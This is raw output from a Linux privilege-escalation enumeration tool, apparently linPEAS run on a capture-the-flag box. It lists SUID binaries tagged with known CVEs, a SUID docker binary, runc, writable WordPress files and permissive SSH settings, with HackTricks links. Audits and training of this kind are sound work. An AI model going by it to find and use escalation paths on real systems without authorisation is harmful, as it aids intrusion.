    ╔══════════╣ MySQL version
    mysql  Ver 8.0.25-0ubuntu0.20.04.1 for Linux on x86_64 ((Ubuntu))
    
    ═╣ MySQL connection using default root/root ........... No
    ═╣ MySQL connection using root/toor ................... No
    ═╣ MySQL connection using root/NOPASS ................. No
    
    ╔══════════╣ Analyzing PGP-GPG Files (limit 70)
    /usr/bin/gpg
    gpg Not Found
    netpgpkeys Not Found
    netpgp Not Found
    
    -rw-r--r-- 1 root root 2796 Apr  9  2020 /etc/apt/trusted.gpg.d/ubuntu-keyring-2012-archive.gpg
    -rw-r--r-- 1 root root 2794 Apr  9  2020 /etc/apt/trusted.gpg.d/ubuntu-keyring-2012-cdimage.gpg
    -rw-r--r-- 1 root root 1733 Apr  9  2020 /etc/apt/trusted.gpg.d/ubuntu-keyring-2018-archive.gpg
    -rw-r--r-- 1 root root 3267 Mar 10  2020 /usr/share/gnupg/distsigkey.gpg
    -rw-r--r-- 1 root root 2236 Mar 30  2020 /usr/share/keyrings/ubuntu-advantage-esm-apps.gpg
    -rw-r--r-- 1 root root 2264 Mar 30  2020 /usr/share/keyrings/ubuntu-advantage-esm-infra-trusty.gpg
    -rw-r--r-- 1 root root 7399 Sep 17  2018 /usr/share/keyrings/ubuntu-archive-keyring.gpg
    -rw-r--r-- 1 root root 6713 Oct 27  2016 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
    -rw-r--r-- 1 root root 4097 Feb  6  2018 /usr/share/keyrings/ubuntu-cloudimage-keyring.gpg
    -rw-r--r-- 1 root root 0 Jan 17  2018 /usr/share/keyrings/ubuntu-cloudimage-removed-keys.gpg
    -rw-r--r-- 1 root root 1227 May 27  2010 /usr/share/keyrings/ubuntu-master-keyring.gpg
    -rw-r--r-- 1 root root 2867 Feb 13  2020 /usr/share/popularity-contest/debian-popcon.gpg
    
    ╔══════════╣ Checking if runc is available
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
    runc was found in /usr/sbin/runc, you may be able to escalate privileges with it
    
    ╔══════════╣ Searching uncommon passwd files (splunk)
    passwd file: /etc/pam.d/passwd
    passwd file: /etc/passwd
    passwd file: /usr/share/bash-completion/completions/passwd
    passwd file: /usr/share/lintian/overrides/passwd
    
    ╔══════════╣ Searching ssl/ssh files
    ╔══════════╣ Analyzing SSH Files (limit 70)
    
    -rw-r--r-- 1 root root 611 Sep 24 16:47 /etc/ssh/ssh_host_dsa_key.pub
    -rw-r--r-- 1 root root 183 Sep 24 16:47 /etc/ssh/ssh_host_ecdsa_key.pub
    -rw-r--r-- 1 root root 103 Sep 24 16:47 /etc/ssh/ssh_host_ed25519_key.pub
    -rw-r--r-- 1 root root 575 Sep 24 16:47 /etc/ssh/ssh_host_rsa_key.pub
    
    PermitRootLogin yes
    PasswordAuthentication yes
    ChallengeResponseAuthentication no
    UsePAM yes
    
    ══╣ Possible private SSH keys were found!
    /etc/ImageMagick-6/mime.xml
    
    ══╣ Some certificates were found (out limited):
    /etc/pki/fwupd-metadata/LVFS-CA.pem
    /etc/pki/fwupd/LVFS-CA.pem
    /etc/pollinate/entropy.ubuntu.com.pem
    /etc/ssl/certs/ACCVRAIZ1.pem
    /etc/ssl/certs/AC_RAIZ_FNMT-RCM.pem
    /etc/ssl/certs/Actalis_Authentication_Root_CA.pem
    /etc/ssl/certs/AffirmTrust_Commercial.pem
    /etc/ssl/certs/AffirmTrust_Networking.pem
    /etc/ssl/certs/AffirmTrust_Premium.pem
    /etc/ssl/certs/AffirmTrust_Premium_ECC.pem
    /etc/ssl/certs/Amazon_Root_CA_1.pem
    /etc/ssl/certs/Amazon_Root_CA_2.pem
    /etc/ssl/certs/Amazon_Root_CA_3.pem
    /etc/ssl/certs/Amazon_Root_CA_4.pem
    /etc/ssl/certs/Atos_TrustedRoot_2011.pem
    /etc/ssl/certs/Autoridad_de_Certificacion_Firmaprofesional_CIF_A62634068.pem
    /etc/ssl/certs/Baltimore_CyberTrust_Root.pem
    /etc/ssl/certs/Buypass_Class_2_Root_CA.pem
    /etc/ssl/certs/Buypass_Class_3_Root_CA.pem
    /etc/ssl/certs/CA_Disig_Root_R2.pem
    16648PSTORAGE_CERTSBIN
    
    ══╣ Writable ssh and gpg agents
    /etc/systemd/user/sockets.target.wants/gpg-agent.socket
    /etc/systemd/user/sockets.target.wants/gpg-agent-extra.socket
    /etc/systemd/user/sockets.target.wants/gpg-agent-ssh.socket
    /etc/systemd/user/sockets.target.wants/gpg-agent-browser.socket
    ══╣ Some home ssh config file was found
    /usr/share/openssh/sshd_config
    Include /etc/ssh/sshd_config.d/*.conf
    ChallengeResponseAuthentication no
    UsePAM yes
    X11Forwarding yes
    PrintMotd no
    AcceptEnv LANG LC_*
    Subsystem       sftp    /usr/lib/openssh/sftp-server
    
    ══╣ /etc/hosts.allow file found, trying to read the rules:
    /etc/hosts.allow
    
    Searching inside /etc/ssh/ssh_config for interesting info
    Include /etc/ssh/ssh_config.d/*.conf
    Host *
        SendEnv LANG LC_*
        HashKnownHosts yes
        GSSAPIAuthentication yes
    
    ╔══════════╣ Searching tmux sessions
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
    tmux 3.0a
    
    /tmp/tmux-33
    
                          ╔════════════════════════════════════╗
    ══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                          ╚════════════════════════════════════╝
    ╔══════════╣ SUID - Check easy privesc, exploits and write perms
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
    -rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-- 1 root messagebus 51K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 23K May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 463K Mar  9  2021 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 39K Jul 21  2020 /usr/bin/umount  --->  BSD/Linux(08-1996)
    -rwsr-xr-x 1 root root 82M Oct 14  2020 /usr/bin/docker
    -rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 44K May 28  2020 /usr/bin/newgrp  --->  HP-UX_10.20
    -rwsr-xr-x 1 root root 31K May 26  2021 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
    -rwsr-xr-x 1 root root 67K Jul 21  2020 /usr/bin/su
    -rwsr-xr-x 1 root root 87K May 28  2020 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 67K May 28  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
    -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
    -rwsr-xr-x 1 root root 84K May 28  2020 /usr/bin/chfn  --->  SuSE_9.3/10
    -rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x 1 root root 55K Jul 21  2020 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
    -rwsr-xr-x 1 root root 52K May 28  2020 /usr/bin/chsh
    
    ╔══════════╣ SGID
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
    -rwxr-sr-x 1 root utmp 15K Sep 30  2019 /usr/lib/x86_64-linux-gnu/utempter/utempter
    -rwxr-sr-x 1 root shadow 43K Jul 21  2020 /usr/sbin/pam_extrausers_chkpwd
    -rwxr-sr-x 1 root shadow 43K Jul 21  2020 /usr/sbin/unix_chkpwd
    -rwxr-sr-x 1 root shadow 83K May 28  2020 /usr/bin/chage
    -rwxr-sr-x 1 root tty 15K Mar 30  2020 /usr/bin/bsd-write
    -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
    -rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
    -rwxr-sr-x 1 root tty 35K Jul 21  2020 /usr/bin/wall
    -rwxr-sr-x 1 root shadow 31K May 28  2020 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 343K Mar  9  2021 /usr/bin/ssh-agent
    
    ╔══════════╣ Files with ACLs (limited to 50)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls
    files with acls in searched folders Not Found
    
    ╔══════════╣ Capabilities
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
    ══╣ Current shell capabilities
    CapInh:  0x0000000000000000=
    CapPrm:  0x0000000000000000=
    CapEff:  0x0000000000000000=
    CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
    CapAmb:  0x0000000000000000=
    
    ╚ Parent process capabilities
    CapInh:  0x0000000000000000=
    CapPrm:  0x0000000000000000=
    CapEff:  0x0000000000000000=
    CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
    CapAmb:  0x0000000000000000=
    
    Files with capabilities (limited to 50):
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/ping = cap_net_raw+ep
    
    ╔══════════╣ Users with capabilities
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
    
    ╔══════════╣ Checking misconfigurations of ld.so
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld.so
    /etc/ld.so.conf
    Content of /etc/ld.so.conf:
    include /etc/ld.so.conf.d/*.conf
    
    /etc/ld.so.conf.d
      /etc/ld.so.conf.d/libc.conf
      - /usr/local/lib
      /etc/ld.so.conf.d/x86_64-linux-gnu.conf
      - /usr/local/lib/x86_64-linux-gnu
      - /lib/x86_64-linux-gnu
      - /usr/lib/x86_64-linux-gnu
    
    /etc/ld.so.preload
    ╔══════════╣ Files (scripts) in /etc/profile.d/
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#profiles-files
    total 40
    drwxr-xr-x   2 root root 4096 Nov  4  2020 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root   96 Dec  5  2019 01-locale-fix.sh
    -rw-r--r--   1 root root 1557 Feb 17  2020 Z97-byobu.sh
    -rwxr-xr-x   1 root root 3417 Jun  2  2020 Z99-cloud-locale-test.sh
    -rwxr-xr-x   1 root root  873 Jun  2  2020 Z99-cloudinit-warnings.sh
    -rw-r--r--   1 root root  729 Feb  2  2020 bash_completion.sh
    -rw-r--r--   1 root root 1003 Aug 13  2019 cedilla-portuguese.sh
    -rw-r--r--   1 root root 1107 Nov  3  2019 gawk.csh
    -rw-r--r--   1 root root  757 Nov  3  2019 gawk.sh
    
    ╔══════════╣ Permissions in init, init.d, systemd, and rc.d
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
    
    ╔══════════╣ AppArmor binary profiles
    -rw-r--r-- 1 root root 3222 Mar 11  2020 sbin.dhclient
    -rw-r--r-- 1 root root 3202 Feb 25  2020 usr.bin.man
    -rw-r--r-- 1 root root 1904 Nov  4  2020 usr.sbin.mysqld
    -rw-r--r-- 1 root root 1575 Feb 11  2020 usr.sbin.rsyslogd
    -rw-r--r-- 1 root root 1385 Dec  7  2019 usr.sbin.tcpdump
    
    ═╣ Hashes inside passwd file? ........... No
    ═╣ Writable passwd file? ................ No
    ═╣ Credentials in fstab/mtab? ........... No
    ═╣ Can I read shadow files? ............. No
    ═╣ Can I read shadow plists? ............ No
    ═╣ Can I write shadow plists? ........... No
    ═╣ Can I read opasswd file? ............. No
    ═╣ Can I write in network-scripts? ...... No
    ═╣ Can I read root folder? .............. No
    
    ╔══════════╣ Searching root files in home dirs (limit 30)
    /home/
    /home/ubuntu/.bash_history
    /home/docker
    /home/docker/dbScript.sh
    /home/docker/Views.txt
    /home/docker/cronScript
    /home/docker/dockerScript.sh
    /home/docker/dev
    /home/docker/dev/index.php
    /home/docker/dev/img.php
    /home/docker/dev/about.php
    /home/docker/dev/images
    /home/docker/dev/images/loc.png
    /home/docker/dev/images/full_image_1.jpg
    /home/docker/dev/images/img_10.jpg
    /home/docker/dev/images/work_8.jpg
    /home/docker/dev/images/person1.jpg
    /home/docker/dev/images/img_7.jpg
    /home/docker/dev/images/person2.jpg
    /home/docker/dev/images/gura.jpg
    /home/docker/dev/images/work_2.jpg
    /home/docker/dev/images/person3.jpg
    /home/docker/dev/images/full_image_2.jpg
    /home/docker/dev/images/work_5.jpg
    /home/docker/dev/images/img_8.jpg
    /home/docker/dev/images/work_4.jpg
    /home/docker/dev/images/miko.jpg
    /home/docker/dev/images/amelia.jpg
    /home/docker/dev/images/okayu.jpg
    /home/docker/dev/images/korone.jpg
    
    ╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
    -rw-r--r-- 1 root root 913 Oct 22  2020 /home/docker/wordpress/robots.txt
    
    ╔══════════╣ Readable files belonging to root and readable by me but not world readable
    
    ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
    uniq: write error: Broken pipe
    /dev/mqueue
    /dev/shm
    /home/docker/dbScript.sh
    /home/docker/wordpress
    /home/docker/wordpress/.htaccess
    /home/docker/wordpress/index.php
    /home/docker/wordpress/license.txt
    /home/docker/wordpress/readme.html
    /home/docker/wordpress/upgrade
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/about.php
    /home/docker/wordpress/wp-admin/admin-ajax.php
    /home/docker/wordpress/wp-admin/admin-footer.php
    /home/docker/wordpress/wp-admin/admin-functions.php
    /home/docker/wordpress/wp-admin/admin-header.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/css/about-rtl.css
    /home/docker/wordpress/wp-admin/css/about-rtl.min.css
    /home/docker/wordpress/wp-admin/css/about.css
    /home/docker/wordpress/wp-admin/css/about.min.css
    /home/docker/wordpress/wp-admin/css/admin-menu-rtl.css
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/css/colors/_admin.scss
    /home/docker/wordpress/wp-admin/css/colors/_mixins.scss
    /home/docker/wordpress/wp-admin/css/colors/_variables.scss
    /home/docker/wordpress/wp-admin/css/colors/blue
    /home/docker/wordpress/wp-admin/css/colors/blue/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/blue/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/blue/colors.css
    /home/docker/wordpress/wp-admin/css/colors/blue/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/blue/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/coffee
    /home/docker/wordpress/wp-admin/css/colors/coffee/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/coffee/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/coffee/colors.css
    /home/docker/wordpress/wp-admin/css/colors/coffee/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/coffee/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm/colors.css
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/ectoplasm/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/light
    /home/docker/wordpress/wp-admin/css/colors/light/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/light/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/light/colors.css
    /home/docker/wordpress/wp-admin/css/colors/light/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/light/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/midnight
    /home/docker/wordpress/wp-admin/css/colors/midnight/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/midnight/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/midnight/colors.css
    /home/docker/wordpress/wp-admin/css/colors/midnight/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/midnight/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/modern
    /home/docker/wordpress/wp-admin/css/colors/modern/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/modern/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/modern/colors.css
    /home/docker/wordpress/wp-admin/css/colors/modern/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/modern/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/ocean
    /home/docker/wordpress/wp-admin/css/colors/ocean/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/ocean/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/ocean/colors.css
    /home/docker/wordpress/wp-admin/css/colors/ocean/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/ocean/colors.scss
    /home/docker/wordpress/wp-admin/css/colors/sunrise
    /home/docker/wordpress/wp-admin/css/colors/sunrise/colors-rtl.css
    /home/docker/wordpress/wp-admin/css/colors/sunrise/colors-rtl.min.css
    /home/docker/wordpress/wp-admin/css/colors/sunrise/colors.css
    /home/docker/wordpress/wp-admin/css/colors/sunrise/colors.min.css
    /home/docker/wordpress/wp-admin/css/colors/sunrise/colors.scss
    /home/docker/wordpress/wp-admin/css/common-rtl.css
    /home/docker/wordpress/wp-admin/css/common-rtl.min.css
    /home/docker/wordpress/wp-admin/css/common.css
    /home/docker/wordpress/wp-admin/css/common.min.css
    /home/docker/wordpress/wp-admin/css/customize-controls-rtl.css
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/custom-background.php
    /home/docker/wordpress/wp-admin/custom-header.php
    /home/docker/wordpress/wp-admin/customize.php
    /home/docker/wordpress/wp-admin/edit-comments.php
    /home/docker/wordpress/wp-admin/edit-form-advanced.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/includes/admin-filters.php
    /home/docker/wordpress/wp-admin/includes/admin.php
    /home/docker/wordpress/wp-admin/includes/ajax-actions.php
    /home/docker/wordpress/wp-admin/includes/bookmark.php
    /home/docker/wordpress/wp-admin/includes/class-automatic-upgrader-skin.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/index.php
    /home/docker/wordpress/wp-admin/install-helper.php
    /home/docker/wordpress/wp-admin/install.php
    /home/docker/wordpress/wp-admin/js
    /home/docker/wordpress/wp-admin/js/accordion.js
    /home/docker/wordpress/wp-admin/js/accordion.min.js
    /home/docker/wordpress/wp-admin/js/code-editor.js
    /home/docker/wordpress/wp-admin/js/code-editor.min.js
    /home/docker/wordpress/wp-admin/js/color-picker.js
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/js/widgets/custom-html-widgets.js
    /home/docker/wordpress/wp-admin/js/widgets/custom-html-widgets.min.js
    /home/docker/wordpress/wp-admin/js/widgets/media-audio-widget.js
    /home/docker/wordpress/wp-admin/js/widgets/media-audio-widget.min.js
    /home/docker/wordpress/wp-admin/js/widgets/media-gallery-widget.js
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/js/word-count.js
    /home/docker/wordpress/wp-admin/js/word-count.min.js
    /home/docker/wordpress/wp-admin/js/xfn.js
    /home/docker/wordpress/wp-admin/js/xfn.min.js
    /home/docker/wordpress/wp-admin/link-add.php
    /home/docker/wordpress/wp-admin/link-manager.php
    /home/docker/wordpress/wp-admin/link-parse-opml.php
    /home/docker/wordpress/wp-admin/link.php
    /home/docker/wordpress/wp-admin/load-scripts.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/maint/repair.php
    /home/docker/wordpress/wp-admin/media-new.php
    /home/docker/wordpress/wp-admin/media-upload.php
    /home/docker/wordpress/wp-admin/media.php
    /home/docker/wordpress/wp-admin/menu-header.php
    /home/docker/wordpress/wp-admin/menu.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/network/about.php
    /home/docker/wordpress/wp-admin/network/admin.php
    /home/docker/wordpress/wp-admin/network/credits.php
    /home/docker/wordpress/wp-admin/network/edit.php
    /home/docker/wordpress/wp-admin/network/freedoms.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/options-discussion.php
    /home/docker/wordpress/wp-admin/options-general.php
    /home/docker/wordpress/wp-admin/options-head.php
    /home/docker/wordpress/wp-admin/options-media.php
    /home/docker/wordpress/wp-admin/options-permalink.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/user/about.php
    /home/docker/wordpress/wp-admin/user/admin.php
    /home/docker/wordpress/wp-admin/user/credits.php
    /home/docker/wordpress/wp-admin/user/freedoms.php
    /home/docker/wordpress/wp-admin/user/index.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-admin/users.php
    /home/docker/wordpress/wp-admin/widgets.php
    /home/docker/wordpress/wp-blog-header.php
    /home/docker/wordpress/wp-comments-post.php
    /home/docker/wordpress/wp-config-sample.php
    /home/docker/wordpress/wp-config.php
    /home/docker/wordpress/wp-content
    /home/docker/wordpress/wp-content/index.php
    /home/docker/wordpress/wp-content/plugins
    /home/docker/wordpress/wp-content/plugins/akismet
    /home/docker/wordpress/wp-content/plugins/akismet/.htaccess
    /home/docker/wordpress/wp-content/plugins/akismet/LICENSE.txt
    /home/docker/wordpress/wp-content/plugins/akismet/_inc
    /home/docker/wordpress/wp-content/plugins/akismet/_inc/akismet.css
    /home/docker/wordpress/wp-content/plugins/akismet/_inc/akismet.js
    /home/docker/wordpress/wp-content/plugins/akismet/_inc/form.js
    /home/docker/wordpress/wp-content/plugins/akismet/_inc/img
    /home/docker/wordpress/wp-content/plugins/akismet/akismet.php
    /home/docker/wordpress/wp-content/plugins/akismet/changelog.txt
    /home/docker/wordpress/wp-content/plugins/akismet/class.akismet-admin.php
    /home/docker/wordpress/wp-content/plugins/akismet/class.akismet-cli.php
    /home/docker/wordpress/wp-content/plugins/akismet/class.akismet-rest-api.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-content/plugins/akismet/views/activate.php
    /home/docker/wordpress/wp-content/plugins/akismet/views/config.php
    /home/docker/wordpress/wp-content/plugins/akismet/views/connect-jp.php
    /home/docker/wordpress/wp-content/plugins/akismet/views/enter.php
    /home/docker/wordpress/wp-content/plugins/akismet/views/get.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-content/plugins/akismet/wrapper.php
    /home/docker/wordpress/wp-content/plugins/hello.php
    /home/docker/wordpress/wp-content/plugins/index.php
    /home/docker/wordpress/wp-content/themes
    /home/docker/wordpress/wp-content/themes/generatepress
    /home/docker/wordpress/wp-content/themes/generatepress/404.php
    /home/docker/wordpress/wp-content/themes/generatepress/archive.php
    /home/docker/wordpress/wp-content/themes/generatepress/comments.php
    /home/docker/wordpress/wp-content/themes/generatepress/content-link.php
    /home/docker/wordpress/wp-content/themes/generatepress/content-page.php
    #)You_can_write_even_more_files_inside_last_directory
    
    /home/docker/wordpress/wp-content/themes/generatepress/css/admin
    /home/docker/wordpress/wp-content/themes/generatepress/css/admin/block-editor.css
    
    ╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
    
                                ╔═════════════════════════╗
    ════════════════════════════╣ Other Interesting Files ╠════════════════════════════
                                ╚═════════════════════════╝
    ╔══════════╣ .sh files in path
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    /usr/bin/rescan-scsi-bus.sh
    
    ╔══════════╣ Executable files potentially added by user (limit 70)
    2020-12-05+18:56:26.0515343930 /var/www/user.txt
    2020-11-08+05:44:10.6877111670 /home/docker/dbScript.sh
    2020-11-03+22:40:00.5962084010 /var/www/html/talents.php
    2020-11-03+22:40:00.5522084740 /var/www/html/index.php
    2020-11-03+22:40:00.5482084800 /var/www/html/img.php
    2020-11-03+22:40:00.5482084800 /var/www/html/images/hololive.png
    2020-11-03+22:40:00.5442084870 /var/www/html/images/korone.jpg
    2020-11-03+22:40:00.5002085600 /var/www/html/fonts/simple-line-icons/Simple-Line-Icons.eot
    2020-11-03+22:40:00.4962085670 /var/www/html/fonts/simple-line-icons/Simple-Line-Icons.woff2
    2020-11-03+22:40:00.4962085670 /var/www/html/fonts/simple-line-icons/Simple-Line-Icons.woff
    2020-11-03+22:40:00.4962085670 /var/www/html/fonts/simple-line-icons/Simple-Line-Icons.ttf
    2020-11-03+22:40:00.4962085670 /var/www/html/fonts/simple-line-icons/Simple-Line-Icons.svg
    2020-11-03+22:40:00.4842085870 /var/www/html/css/simple-line-icons.css
    2020-11-03+22:40:00.4802085930 /var/www/html/css/icomoon.css
    2020-11-03+22:40:00.4802085930 /var/www/html/about.php
    2020-09-07+23:24:10.5258478790 /etc/console-setup/cached_setup_terminal.sh
    2020-09-07+23:24:10.5258478790 /etc/console-setup/cached_setup_keyboard.sh
    2020-09-07+23:24:10.5258478790 /etc/console-setup/cached_setup_font.sh
    
    ╔══════════╣ Unexpected in /opt (usually empty)
    total 12
    drwxr-xr-x  3 root root 4096 Oct 31  2020 .
    drwxr-xr-x 18 root root 4096 Sep 29 06:42 ..
    drwx--x--x  4 root root 4096 Oct 31  2020 containerd
    
    ╔══════════╣ Unexpected in root
    
    ╔══════════╣ Modified interesting files in the last 5mins (limit 100)
    /var/log/syslog
    /var/log/journal/42de5554c6c44148bf883ed45121cda2/system.journal
    /var/log/auth.log
    
    ╔══════════╣ Writable log files (logrotten) (limit 50)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#logrotate-exploitation
    logrotate 3.14.0
    
        Default mail command:       /usr/bin/mail
        Default compress command:   /bin/gzip
        Default uncompress command: /bin/gunzip
        Default compress extension: .gz
        Default state file path:    /var/lib/logrotate/status
        ACL support:                yes
        SELinux support:            yes
    
    ╔══════════╣ Files inside /home/www-data (limit 20)
    
    ╔══════════╣ Files inside others home (limit 20)
    /home/ubuntu/.sudo_as_admin_successful
    /home/ubuntu/.bash_logout
    /home/ubuntu/.profile
    /home/docker/dbScript.sh
    /home/docker/Views.txt
    /home/docker/cronScript
    /home/docker/dockerScript.sh
    /home/docker/dev/index.php
    /home/docker/dev/img.php
    /home/docker/dev/about.php
    /home/docker/dev/images/loc.png
    /home/docker/dev/images/full_image_1.jpg
    /home/docker/dev/images/img_10.jpg
    /home/docker/dev/images/work_8.jpg
    /home/docker/dev/images/person1.jpg
    /home/docker/dev/images/img_7.jpg
    /home/docker/dev/images/person2.jpg
    /home/docker/dev/images/gura.jpg
    /home/docker/dev/images/work_2.jpg
    /home/docker/dev/images/person3.jpg
    grep: write error: Broken pipe
    
    ╔══════════╣ Searching installed mail applications
    
    ╔══════════╣ Mails (limit 50)
    
    ╔══════════╣ Backup folders
    drwxr-xr-x 2 root root 4096 Jun 26  2021 /var/backups
    total 1948
    -rw-r--r-- 1 root root  61440 Jan 15  2021 alternatives.tar.0
    -rw-r--r-- 1 root root   2790 Nov  4  2020 alternatives.tar.1.gz
    -rw-r--r-- 1 root root   2518 Nov  1  2020 alternatives.tar.2.gz
    -rw-r--r-- 1 root root  38772 Dec  2  2020 apt.extended_states.0
    -rw-r--r-- 1 root root   4233 Nov  4  2020 apt.extended_states.1.gz
    -rw-r--r-- 1 root root   3999 Oct 31  2020 apt.extended_states.2.gz
    -rw-r--r-- 1 root root    268 Sep  7  2020 dpkg.diversions.0
    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.1.gz
    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.2.gz
    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.3.gz
    -rw-r--r-- 1 root root    139 Sep  7  2020 dpkg.diversions.4.gz
